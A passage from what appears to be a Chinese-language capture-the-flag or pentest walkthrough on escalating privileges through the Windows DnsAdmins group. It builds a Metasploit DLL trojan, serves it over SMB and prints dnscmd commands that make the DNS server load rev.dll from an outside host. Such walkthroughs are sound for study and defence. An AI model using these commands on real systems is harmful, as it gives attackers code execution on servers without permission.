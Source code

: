 [![](assets/1700100091-48226eb503fcc12683d3a510625a82ca.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231114175231-871e2fee-82d3-1.png)

需要运行三个命令：

1.  将服务器级插件设置为 rev.dll 我的共享。
2.  停止 DNS 服务器。
3.  启动 DNS 服务器。  
    \## msf 生成 dll 木马  
    使用 Msf 制作了一个 dll 木马

[![](assets/1700100091-57b72ee5c8b83c4cb582722276be0a50.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231114175238-8b93c7d2-82d3-1.png)

## 传输 dll 木马

使用 smbserver.py 将其发送到目标计算机。

[![](assets/1700100091-f89eb52f2e1c5b964ce89d14bfa13c33.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231114175248-916457bc-82d3-1.png)

## 执行 dll 木马

因为我们是 Dnsadmin，可以轻松执行任意文件，还可以重新启动 dns 服务。  
dnscmd.exe /config /serverlevelplugindll \\10.10.16.3\\s\\rev.dll  
dnscmd /config /serverlevelplugindll \\10.10.16.3\\s\\rev.dll
